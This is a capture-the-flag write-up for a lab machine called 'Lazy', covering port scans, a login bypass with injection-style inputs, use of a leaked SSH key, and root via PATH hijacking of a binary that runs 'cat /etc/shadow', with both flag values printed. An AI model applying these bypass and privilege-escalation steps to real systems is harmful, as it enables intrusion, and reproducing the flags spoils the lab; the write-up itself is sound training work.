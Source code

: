 # [cd ../](../index.md)

---

# Lazy writeup by M4t35Z

Name | Lazy
--- | ---
IP | 10.10.10.18
OS | Linux
Points | Medium(30)

---

# Recon
[nmap(fast)](recon/fast.txt)  
[nmap(big)](recon/big.txt)  

We have 2 ports open:  
`22 - ssh` and `80 - http`

## Web
[ffuf_comm.txt](recon/ffuf.txt)  
`/classes` seems interesting! But it's nothing

The page is just a login, register page
- Maybe sqli?
Try some!
```
admin '-- -
admin       <spaces>
admin=
```

And `admin=` worked!  
![](img/adminpage.png)  

And we have a [link](http://10.10.10.18/mysshkeywithnamemitsos) to the developer's `id_rsa`  
Just copy it -> save it -> use it!  

But wait wait wait we need a username too.  
Lets check the link again:  
*my ssh key with name `mitsos`*  
So we have a username `mitsos` and his id_rsa now we can log in!

# SSH

```
ssh -i id_rsa mitsos@10.10.10.18
```

And we got the flag from `user.txt`
```
d558e7924bdfe31266ec96b007dc63fc
```

## Privesc to `root`
We have a `peda` directory and a weird `backup` file  
Just run `./backup` -> it cats `/etc/shadow`  
Since we have peda on it we could run `gdb ./backup`  
Yaaaay a lil reversing challenge!  

`b main` means breaking the main fcn.  
`r` runs the program until breakpoint reached  
![](img/gdb.png)  
`si` step  
`x/s 0x80484d0` This returns `"cat /etc/shadow"`  
![](img/gdb2.png)  

So we have a cmd that is executing `cat`!
- No absolute path!!  
We could make a new file named `cat` and place it somewhere before the actual `cat` in `$PATH` and this program will execute the first one!  
![](img/path.png)

### Exploiting
Just make a file named `cat` and put inside what u want to be executed as root!
The most easy `/bin/sh`

But there is a problem!  
We cant write to default system paths  
BUT we can add paths!!!!
```
export PATH=`pwd`:$PATH
```
Now just run `./backup` and u can see this is a rootshell!!  

Cmds2run:
1. `cd ~`
2. `echo "/bin/sh" > cat`
3. `chmod +x cat`
4. ```
   export PATH=`pwd`:$PATH
   ```
5. `./backup`

# Got root and the root flag!
![](img/gotroot.png)  
```
990b142c3cefd46a5e7d61f678d45515
```
